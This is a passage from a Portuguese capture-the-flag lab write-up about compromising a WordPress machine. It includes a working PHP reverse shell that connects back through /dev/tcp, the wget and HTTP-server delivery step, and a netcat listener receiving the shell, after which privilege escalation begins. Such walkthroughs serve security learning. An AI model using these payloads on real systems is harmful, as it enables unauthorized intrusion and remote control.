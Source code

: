 Agora é hora de criar um reverse shell. 
Tentei alguns reverse shells single-line, mas não deu certo. Tentei com python, php, nc e /dev/tcp, mas não consegui. 
Por fim, criei um arquivo reverse.php com o seguinte conteúdo e baixei o reverse com wget.

```php
<?php
ignore_user_abort(true);
set_time_limit(0);
$ip = '10.23.176.32';
$port = 4444;
exec("/bin/bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'");
?>
```

![image](Screenshot_2025-10-18_09_29_02.png)

```bash
┌──(kali㉿kali)-[~/smol]
└─$ python3 -m http.server  
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.151.222 - - [18/Oct/2025 09:31:47] "GET /reverse.php HTTP/1.1" 200 -

```

Setei meu listener com netcat e consegui meu reverse shell.

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444               
listening on [any] 4444 ...
connect to [10.23.176.32] from (UNKNOWN) [10.10.151.222] 43226
bash: cannot set terminal process group (769): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-10-10-151-222:/var/www/wordpress/wp-admin$
```

Agora é hora escalar privilégios.



# Privilege Escalation


Decidi verificar os serviços rodando no localhost

```bash
www-data@ip-10-10-151-222:/var/www/wordpress/wp-admin$ ss -tuln
Netid State  Recv-Q Send-Q      Local Address:Port    Peer Address:Port Process 
udp   UNCONN 0      0           127.0.0.53%lo:53           0.0.0.0:*            
udp   UNCONN 0      0      10.10.151.222%ens5:68           0.0.0.0:*            
tcp   LISTEN 0      70              127.0.0.1:33060        0.0.0.0:*            
tcp   LISTEN 0      4096        127.0.0.53%lo:53           0.0.0.0:*            
tcp   LISTEN 0      128               0.0.0.0:22           0.0.0.0:*            
tcp   LISTEN 0      151             127.0.0.1:3306         0.0.0.0:*            
tcp   LISTEN 0      511                     *:80                 *:*            
tcp   LISTEN 0      128                  [::]:22              [::]:*            
<var/www/wordpress/wp-admin$
```
